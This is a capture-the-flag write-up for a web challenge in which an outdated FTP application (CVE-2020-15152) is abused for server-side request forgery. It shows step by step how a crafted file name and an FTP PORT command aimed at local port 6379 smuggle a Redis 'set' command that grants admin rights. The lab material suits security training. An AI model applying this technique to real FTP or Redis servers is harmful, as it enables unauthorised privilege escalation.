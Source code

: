 # SSRF FTP->REDIS
> Web
Author: @KptCheeseWhiz

## Challenge
I found this cool application on the internet. I bet it's super old since it's still using good ol' FTP. I hope they kept their dependencies up to date..

## Write up

Old challenge never solved, was a 0day at the time, but now it has a CVE-2020-15152

Using the same credentials (eg: `rootroot:rootroot`)

1. Login on the FTP server with a ftp client
2. Try downloading a file name `test`, you will see an error with the path which contains your `hash`
3. Create a file named `set YOUR_HASH_admin 1` (replace YOUR_HASH) on your computer
4. Upload the file on the FTP server with `put "set YOUR_HASH_admin 1"`
5. Login back on the FTP server with telnet and enter these commands (this basicly send the dirlist to the redis server which will interpret it as commands)
    1. USER rootroot
    2. PASS rootroot
    3. PORT 127,0,0,1,0,6379
    4. NLST
    5. QUIT
6. Login back on the FTP server with a ftp client
7. Download the file named flag

## Setup

### Requirements
 - docker
 - docker-compose

### How to run
 - Execute the command `docker-compose up`